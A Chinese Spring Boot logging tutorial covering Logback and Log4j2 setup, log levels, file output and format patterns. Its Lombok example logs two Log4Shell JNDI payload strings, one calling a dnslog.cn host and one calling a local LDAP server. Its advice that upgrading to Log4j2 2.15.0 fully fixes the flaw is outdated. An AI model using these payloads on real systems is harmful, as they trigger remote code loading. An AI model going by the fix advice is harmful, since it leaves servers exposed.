







# SpringBoot中日志的处理

## 课程目标

- 学习springBoot的日志
- 设置日志级别
- 设置日志格式
- 解决Log4j2的漏洞
- 学习日志的打印方式


## 为啥要学习日志框架

- 方便调试
- 方便后续查看
- 日志它输出到文件中
- 日志它输出到数据库中
- ELK查看日志

日志框架的好处

- 日志：方便调试程序，排除，以及统计。

- 大数据分析----海量的程序日志分析 + 用户行为日志的分析
- 进行日志的分割，处理，格式也可以控制。
- 是一种明确需求的形式


## 为什么System.out.println不行？

- System.out.println  影响程序的性能，程序做完要进行删除，无法控制的级别
- 它没办法输出到日志文件中
- 没办法做日志文件分隔，追加等

## 01、官网：

https://docs.spring.io/spring-boot/docs/2.6.1/reference/htmlsingle/#features.logging


## 02、项目日志格式

Spring Boot 的默认日志输出类似于以下示例：

```properties
2021-12-14 22:40:14.159  INFO 20132 --- [           main] com.kuangstudy.SpringbootApplication     : Started SpringbootApplication in 2.466 seconds (JVM running for 3.617)
```

输出以下项目：

- 日期和时间：毫秒精度且易于排序。
- 日志级别：`ERROR`，`WARN`，`INFO`，`DEBUG`，或`TRACE`。
- 进程标识。
- 一个`---`分离器来区分实际日志消息的开始。
- 线程名称：括在方括号中（可能会被截断以用于控制台输出）。
- 记录器名称：这通常是源类名称（通常缩写）。
- 日志消息。
- 换行符 

**注意：Logback 没有`FATAL`级别。它被映射到`ERROR`.**


## 03、流行的日志框架

- Java Util Logging
- Logging
- Log4j2 
- Logback(默认)



从上图中分析得出 springboot的底层spring-boot-starter-logging可以看出，它依赖的3个日志框架：slf4j、Logback、Log4j2 。它们的区别是：

- logback和log4j是日志实现框架，就是实现怎么记录日志的。
- slf4j-api提供了java所有日志框架的简单规范和标准（日志的门面设计模式）， 说白了就是一个日志API（没有实现类），它不能单独使用：故必须结合logback和Log4j2 日志框架来实现。
- springboot的日志搭配。
  - spring2.0默认采用slf4j-api + logback的日志搭配，在开发过程中，我们都是采用slf4j的api去记录日志，底层的实现就是根据配置logback和Log4j2 日志框架。

 

## 04、Log4j2配置

先来了解一下Log4j2的发展史：

Apache Log4j2 是Log4j的一个升级版本，但是不仅仅是升级，几乎完全进行了重构。旧版本的Log4j，自2015年5月以后就停止对它的更新了。Log4j2是高效的，低延迟的异步日志处理框架，在多线程的场景中，Log4j2的性能是Log4j、LogBack和Logging日志吞吐量的18倍。如何整合如下：

### 04-01、配置

```xml
<!--springboot的web的starter-->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>

<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>


```

传统使用

```java
 private final static Logger logger = LoggerFactory.getLogger(SpringbootApplication.class);
```

Lombok使用

```java
package com.kuangstudy;

import lombok.extern.log4j.Log4j2;
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

@SpringBootApplication
@Log4j2
public class SpringbootApplication {
    public static void main(String[] args) {
        SpringApplication.run(SpringbootApplication.class, args);
        log.error("${jndi:ldap://f0m8rj.dnslog.cn/exp}");
        log.error("${jndi:ldap://127.0.0.1:1389/badClassName}");
    }
}
```


### 04-02、Log4j2漏洞

爆出漏洞：https://blog.csdn.net/m0_46163918/article/details/121903696?utm_source=app&app_version=4.20.0&code=app_1562916241&uLinkId=usr1mkqgl919blen 解决方案

### 漏洞描述

Apache Log4j2是一款优秀的Java日志框架，与Logback平分秋色，大量主流的开源框架采用了Log4j2，像Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响。所以，这样一个底层框架出现问题，影响面可想而知。

漏洞信息：Apache Log4j 2.15.0-rc1 版本存在漏洞绕过，需及时更新至 Apache Log4j 2.15.0-rc2 版本。影响范围：2.0 <= Apache log4j2 <= 2.14.1。

#### 升级版本，发布系统,简单解决

最新修复版本：https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2

原理分析：https://baijiahao.baidu.com/s?id=1718946520876495065&wfr=spider&for=pc

```xml
<properties>
    <java.version>1.8</java.version>
    <log4j2.version>2.15.0</log4j2.version>
</properties>
<!--springboot的web的starter-->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>

<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>${log4j2.version}</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>${log4j2.version}</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-slf4j-impl</artifactId>
    <version>${log4j2.version}</version>
</dependency>

<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-jcl</artifactId>
    <version>${log4j2.version}</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-jul</artifactId>
    <version>${log4j2.version}</version>
</dependency>
```

完美解决

##  05、LogBack配置（默认）

### 概述分析

默认情况下，如果您使用“Starters”，则使用 Logback 进行日志记录。还包括适当的 Logback 路由，以确保使用 Java Util Logging、Commons Logging、Log4J 或 SLF4J 的依赖库都能正常工作。

具体操作如下：

```java
package com.kuangstudy.web.log;

import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RestController;

/**
 * Description:
 * Author: yykk Administrator
 * Version: 1.0
 * Create Date Time: 2021/12/14 15:31.
 * Update Date Time:
 *
 * @see
 */
@RestController
public class LoggerController {

    private final static Logger log = LoggerFactory.getLogger(LoggerController.class);


    @GetMapping("/log1")
    public String log1() {
        log.trace("--------------------trace");
        log.debug("--------------------debug");
        log.info("--------------------info");
        log.warn("--------------------warn");
        log.error("--------------------error");
        return "log1";
    }
}

```

打印可以看出来只打印了：

```
2021-12-14 15:33:59.473  INFO 15424 --- [nio-8083-exec-1] com.kuangstudy.web.log.LoggerController  : --------------------info
2021-12-14 15:33:59.474  WARN 15424 --- [nio-8083-exec-1] com.kuangstudy.web.log.LoggerController  : --------------------warn
2021-12-14 15:33:59.474 ERROR 15424 --- [nio-8083-exec-1] com.kuangstudy.web.log.LoggerController  : --------------------error
```

**因为默认情况下：springboot的默认日志级别是：info**

```yaml
# 修改日志级别
logging:
  level:
    root: info
```

可以在application.yml配置如下：

```yaml
# 指定包的日志级别
logging:
  level:
    com.kuangstudy.web.log: trace
```

打印如下：

```
36:38.651 TRACE 4208 --- [nio-8083-exec-1] com.kuangstudy.web.log.LoggerController  : --------------------trace
2021-12-14 15:36:38.651 DEBUG 4208 --- [nio-8083-exec-1] com.kuangstudy.web.log.LoggerController  : --------------------debug
2021-12-14 15:36:38.651  INFO 4208 --- [nio-8083-exec-1] com.kuangstudy.web.log.LoggerController  : --------------------info
2021-12-14 15:36:38.651  WARN 4208 --- [nio-8083-exec-1] com.kuangstudy.web.log.LoggerController  : --------------------warn
2021-12-14 15:36:38.651 ERROR 4208 --- [nio-8083-exec-1] com.kuangstudy.web.log.LoggerController  : --------------------error
```


总结

- debug是开发首选，是一种明细的日志级别，可以看到框架加载类的所有过程，如果你要进行源码分析，查看SQL执行的过程，框架的执行的过程，肯定是用debug

  ```yaml
  # 修改日志级别
  logging:
    level:
      root: debug
      com.kuang.order: info
  ```

- info: 只会打印常见的日志信息

- error: 只会打印错误日志信息，一般在生产环境中进行设定。因为项目开发测试完毕，肯定在线上肯定只关注错误，如果你其他也关注，可以单独设定。

  ```yaml
  # 修改日志级别
  logging:
    level:
      root: error
      com.kuang.order: info
  ```


推荐安装一个myabtis日志插件：



因为在平时开发中，debug日志，输出的内容信息太多，所以myabtis开发日志插件，可以让你在info级别的输出日志中，可以查看到你mybatis执行的SQL和参数。


## 06、springboot具体配置日志

默认springboot的日志是：logback , 但是只会输出Error、Warn和Info级别的日志信息。可以修改日志的级别来控制：

### 06-01、日志级别

```yaml
logging:
  level: 
    # 设置日志的默认级别为 info
    root: info
    # 设置com.kuantstudy.log包下的日志级别是 debug
    com.kuantstudy.log: debug
```

### 06-02、日志文件

在实际开发中，特别是在生产环境中，你不可能一直看着控制台，而且日志会非常的大，瞬间就丢失了。因此我们需要把日志存储在指定的目录或者文件中：

#### 指令目录输入日志文件（不推荐）

告诉springboot使用logback生成的日志，除了在控制打印一份，同时往这个目录outputs/logs的中生成一个spring.log文件中生成一份。

一句话：目录的指定，只是告诉spring.log放在哪里。

```yaml
logging:
  # 指定日志输出的目录
  file:
    path: outputs/logs
```

如下：



指定以后，会默认生成 `spring.log` 文件

#### 指定日志文件输出（推荐）

```yaml
logging:
  file:
    name: G://outputs/logs/springboot.log
```

 如下：


## 07、日志格式

### 日志格式

比如：

```
2021-12-14 16:13:07.120  INFO 20372 --- [           main] com.kuangstudy.SpringbootApplication     : No active profile set, falling back to default profiles: default
```

- 日期和时间：毫秒精度且易于排序。- 2021-12-14 16:10:04:013
- 日志级别：`ERROR`，`WARN`，`INFO`，`DEBUG`，或`TRACE`。- INFO
- 进程标识。[20372] 
- 一个`---`分离器来区分实际日志消息的开始。
- 线程名称：括在方括号中（可能会被截断以用于控制台输出）。[           main] 
- 记录器名称：这通常是源类名称（通常缩写）。- com.kuangstudy.SpringbootApplication 
- 日志消息。- No active profile set, falling back to default profiles: default

比如：

```yaml
# 修改日志级别
logging:
  # 设置日志格式
  pattern:
    # 控制输出的格式
    #格式化输出：%d:表示日期    %thread:表示线程名     %-5level:级别从左显示5个字符宽度  %msg:日志消息    %n:是换行符
    console: "[console]==%d{yyyy-MM-dd HH:mm:ss:SSS} [%thread] %-5level %logger - %msg%n"
    # 文件输出的格式
    file: "[file]===%d{yyyy-MM-dd HH:mm:ss:SSS} [%thread] %-5level %logger - %msg%n"
```


### 分别日志的格式如下：

- %d或者%date：指定日志的日期。默认是ISO8601的标准日期，相当于yyyy-MM-dd HH:mm:ss:SSS
- %level：指定日志的级别: Trace > Debug > Info> Warn> Error 
- %logger：指定日志输出的 包名 + 类名， {n}可以限定长度 比如：%logger{50}
- %M：指定日志发生时的方法名
- %L：指定日志调用时所在的行。线下运行的时候不建议使用此参数，因为获取代码的行号对性能有损耗
- %m 或者 %msg：表示日志的输出的内容
- %n ：日志是否换行
- %thread：打印线程的名字

### 彩色编码输出

如果您的终端支持 ANSI，则使用颜色输出来提高可读性。您可以设置`spring.output.ansi.enabled`为[支持的值](https://docs.spring.io/spring-boot/docs/2.6.1/api/org/springframework/boot/ansi/AnsiOutput.Enabled.html)以覆盖自动检测。

使用`%clr`转换字配置颜色编码。在最简单的形式中，转换器根据日志级别为输出着色，如以下示例所示：

```yaml
%clr(%5p)
```

下表描述了日志级别到颜色的映射：

| 等级    | 颜色   |
| :------ | :----- |
| `FATAL` | 红色的 |
| `ERROR` | 红色的 |
| `WARN`  | 黄色的 |
| `INFO`  | 绿     |
| `DEBUG` | 绿     |
| `TRACE` | 绿     |

或者，您可以通过将其作为转换选项提供来指定应使用的颜色或样式。例如，要使文本变黄，请使用以下设置：

```
%clr(%d{yyyy-MM-dd HH:mm:ss.SSS}){yellow}
```

支持以下颜色和样式：

- `blue`
- `cyan`
- `faint`
- `green`
- `magenta`
- `red`
- `yellow`


## 08、IDEA打印彩色日志

### 插件Grep Console



直接安装就行.然后重启.

#### 配置插件



idea直接安装就行.然后重启.

这一排是字体颜色设置,前边是日志级别,我猜测应该是统配符一类的效果
红框前边的那一排是背景色,就是日志所在行的背景色.

#### 效果



另附上.console的配置:

```xml
<PatternLayout pattern="%d{HH:mm:ss.SSS} %-5level %class{36} %L %M - %msg%xEx%n"/>
```


## 09、动态控制日志输出

默认日志配置在写入消息时将消息回显到控制台。默认情况下，会记录`ERROR`-level、`WARN`-level 和`INFO`-level 消息。您还可以通过使用`--debug`标志启动应用程序来启用“调试”模式。

```shell
java -jar myapp.jar --debug
```

